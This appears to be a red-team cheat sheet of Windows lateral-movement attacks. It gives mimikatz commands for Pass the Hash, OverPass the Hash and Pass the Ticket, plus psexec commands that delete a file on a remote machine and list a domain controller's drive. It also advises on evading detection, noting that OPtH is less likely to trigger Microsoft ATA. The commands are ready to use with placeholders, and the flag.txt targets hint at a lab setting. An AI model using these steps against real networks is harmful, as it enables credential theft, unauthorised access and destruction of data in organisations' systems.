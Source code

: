 




Windows: Pass the Hash (PtH)
-----------------------
Utilizing the credentials discovered in the Credential Dumping phase, attempt an PTH attack against a remote system with a user’s NTLM hash that was cached (and dumped by you) on your foothold system. Use mimikatz to authenticate with the DC and get a token. You are now using a security token granted to that user. Essentially you convert a cached password hash into unfettered access to act as that user via granted token. **Note: PtH is often detected by threat countermeasures now. Look at OPtH.**

In this example, you already have those cached and hashed credentials (which also means you're running as SYSTEM). See info on hash harvesting for more on getting hashdumps.

```
mimikatz “privilege::debug” “sekurlsa::pth /user:<Victim> /ntlm:<NTLM> /domain:<DOMAIN>” “exit”

psexec \\<any-remote-pc-victim-user-can-access> -accepteula cmd /c "del c:\flag.txt"
```




Windows: OverPass the Hash (OPtH)
-----------------------
It's like PtH, except instead of involving a crypto-downgrade exploit (in which you convince the DC to allow less-secure NTLM hashes), OPtH sends the full AES keys as well. This is less likely to trigger countermeasures, including Microsoft ATA. The flow is similar to PtH. Note that it has been reported that you can use any 128-bit value for the AES128 key if you can't obtain the key.

In this example, you already have those cached and hashed credentials (which also means you're running as SYSTEM). See info on hash harvesting for more on getting hashdumps.

```
mimikatz “privilege::debug” “sekurlsa::ekeys" "exit"

mimikatz “privilege::debug” “sekurlsa::pth /user:<Victim> /domain:<DOMAIN> /ntlm:<ntlm_hash> /aes128:<aes128_key> /aes256:<aes256_key>” “exit”

psexec \\<remote-pc> -accepteula cmd /c "del c:\flag.txt"
```








Microsoft AD: Pass the Ticket (PtT)
----------------------
Using tickets discovered from a remote system (see: Pass the Hash), compromise another user via PtT attack. Import tickets copied from remote system in the PtH attack. Validate that tickets are successfully imported. Lastly, pull a directory listing from a remote DC using the ticket stolen from the remote system.

```
mimikatz "privilege::debug" "Kerberos::ptt c:\temp\tickets" "exit"

klist

dir \\<remote-domain-controller>\c$
```
